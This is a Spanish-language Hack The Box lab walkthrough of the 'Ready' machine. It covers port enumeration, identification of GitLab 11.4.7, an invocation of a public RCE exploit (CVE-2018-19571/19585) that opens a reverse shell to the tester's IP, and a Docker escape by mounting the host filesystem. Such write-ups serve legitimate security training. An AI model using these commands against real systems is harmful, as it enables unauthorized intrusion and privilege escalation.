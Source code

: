 ```yaml
---
layout: post
title:  "Ready - [HTB]" 
date:   2021-05-15 3:33:00 +0200
last_modified_at: 2021-05-15 03:33:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Walkthrough, CVE, Gitlab, docker]
categories: Hackthebox
---
```


{: .message}

![](/images_blog/img_ready/Pastedimage20210515121042.png)
![Pastedimage20210515121042](https://user-images.githubusercontent.com/76759292/127757666-ad49fc55-99bf-4aed-88c5-bb3b4e438220.png)


En esta oportunidad se abuso de un CVE que esta presente en una version de Gitlab.

## Enumeración

*Puertos:*
```
22 -> OpenSSH 8.2p1 Ubuntu 4
5080 -> nginx
```

### Nmap

```sql
nmap -p- -sT -T5 --open -n -v 10.10.10.220 -oG Allport1 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:21 EDT
Initiating Ping Scan at 19:21
Scanning 10.10.10.220 [2 ports]
Completed Ping Scan at 19:21, 0.06s elapsed (1 total hosts)
Initiating Connect Scan at 19:21
Scanning 10.10.10.220 [65535 ports]
Discovered open port 22/tcp on 10.10.10.220
Connect Scan Timing: About 22.87% done; ETC: 19:23 (0:01:45 remaining)
Discovered open port 5080/tcp on 10.10.10.220
Connect Scan Timing: About 54.84% done; ETC: 19:23 (0:00:50 remaining)
Connect Scan Timing: About 72.24% done; ETC: 19:23 (0:00:35 remaining)
Completed Connect Scan at 19:23, 119.47s elapsed (65535 total ports)
Nmap scan report for 10.10.10.220
Host is up (0.15s latency).
Not shown: 51328 filtered ports, 14205 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.72 second
```

*Escaneo mas exhaustivo:*
```sql
nmap -sC -sV -p5080,22 10.10.10.220 -oN Scan_Port1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:24 EDT
Nmap scan report for 10.10.10.220
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.86 seconds
```

### Masscan

Siempre decartando los falsos positivos:
```sql
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.220
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-04-25 23:16:46 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 5080/tcp on 10.10.10.220
```


*Tips de enumeración web*

Si queremos saber rapidamente los servicios que tiene una web podemos tirar de la herramienta ```Whatweb```
```bash
whatweb 10.10.10.220:5080
http://10.10.10.220:5080 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.10.220], RedirectLocation[http://10.10.10.220:5080/users/sign_in], Strict-Transport-Security[max-age=31536000], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
http://10.10.10.220:5080/users/sign_in [200 OK] Cookies[_gitlab_session], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx], HttpOnly[_gitlab_session], IP[10.10.10.220], Open-Graph-Protocol, PasswordField[new_user[password],user[password]], Script, Strict-Transport-Security[max-age=31536000], Title[Sign in · GitLab], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
```

*Version del GitLab*

```plaintext
GitLab Community Edition [11.4.7]
```

*Searchsploit*

Cuando tenemos la version del aplicativo lo que procede es buscar si tiene un cve esa version:

```bash
searchsploit GitLab 11.4.7   

Exploit
Title                                                      			Path
GitLab 11.4.7 - RCE (Authenticated) (2)                             | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)			| ruby/webapps/49257.py
```

## GitLab Page
Pero antes de ejecutar el cve debemos registrarnos en el GitLab:
*Register*

```plaintext
benji
Benji123
benji@htb.com
```
## Remote Code Execution 
En este no se tiene que modificar nada en el codigo fuente sino que este solo tienes que agregar los parametros y te ejecuta todo automatico [RCE](https://www.exploit-db.com/exploits/49334)

```bash
# Exploit Title: GitLab 11.4.7 RCE (POC)
# Date: 24th December 2020
# Exploit Author: Norbert Hofmann
# Exploit Modifications: Sam Redmond, Tam Lai Yin
# Original Author: Mohin Paramasivam
# Software Link: https://gitlab.com/
# Environment: GitLab 11.4.7, community edition
# CVE: CVE-2018-19571 + CVE-2018-19585
```

*Run*

```bash
python 49334.py -u benji -p Benji123!!! -g http://10.10.10.220 -l 10.10.14.234 -P 4444
```
Nos ponemos a la escucha en el puerto que especificamos y listo.

## File system Escape

Cuando tenemos el acceso inicial nos damos cuenta que estamos en un docker entonces el objetivo seria escapar del mismo

En la ruta /opt/backups/gitlab.rb encontraremos un backup con la contraseña root del contenedor

![](/images_blog/img_ready/Pastedimage20210503175440.png)
![Pastedimage20210503175440](https://user-images.githubusercontent.com/76759292/127757672-c36da576-b3ef-42dc-8974-70bdc4f1a91f.png)


Estas contraseña que hemos encontrado en el backup, la utilizaremos para acceder como un usuario root del contenedor. Al estar dentro de un contenedor estamos muy limitados entonces la idea seria nos montamos la partición del hosts en una carpeta que creemos en /tmp para poder visualizarlo y de esta manera podemos acceder a /root y leer todo lo que tiene.

![](/images_blog/img_ready/Pastedimage20210503175936.png)
![Pastedimage20210503175936](https://user-images.githubusercontent.com/76759292/127757675-8e9f154d-1c64-4ee3-ae07-fc3d113848f8.png)


En este caso vimos como se puede desde un contenedor visualizar el sistema de archivo del host. Esta maquina fue una excelente manera de ver que pasa cuando no nos mantenemos actualizados.

MACHINE PWNED!!!!!
